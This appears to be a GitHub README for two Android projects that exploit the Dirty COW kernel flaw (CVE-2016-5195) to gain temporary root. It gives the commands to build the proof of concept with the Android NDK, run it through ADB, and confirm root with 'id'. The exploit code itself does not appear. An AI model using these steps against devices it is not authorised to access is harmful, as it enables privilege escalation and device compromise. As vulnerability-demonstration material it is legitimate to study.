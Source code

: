 This repo contains 2 seperate projects:

1  GetRoot-Android-DirtyCow

And:

2  CVE-2016-5195



1 GetRoot-Android-DirtyCow

 Get temporary root on android by exploiting the dirtycow vulnerability.


Run in android or linux:

  ./G1tR0oT

Should execute and result in a root shell



2 CVE-2016-5195

(dirty cow/dirtycow/dirtyc0w) poc for Android

This repo (cloned from https://github.com/timwr/CVE-2016-5195) demonstrates the vulnerability on vulnerable Android devices attached via ADB.

It does not disable SELinux (see https://github.com/timwr/CVE-2016-5195/issues/9) or install superuser on the device.


Make sure you have android-ndk installed: check if you have "ndk-build" in your path:

  which ndk-build

To install android-ndk:

  cd $HOME

  wget https://dl.google.com/android/repository/android-ndk-r14b-linux-x86_64.zip #For darwin: https://dl.google.com/android/repository/android-ndk-r14b-darwin-x86_64.zip

  unzip android-ndk-r14b-linux-x86_64.zip

  cd $HOME/android-ndk-r14b/

Add android-ndk to path

  export PATH="$PATH:$HOME/android-ndk-r14b/"


To run script:

  cd CVE-2016-5195

  make root


If exploited, you should execute:

  adb shell /system/bin/run-as


And running:

  id

Should output "uid=0":

  uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log)......
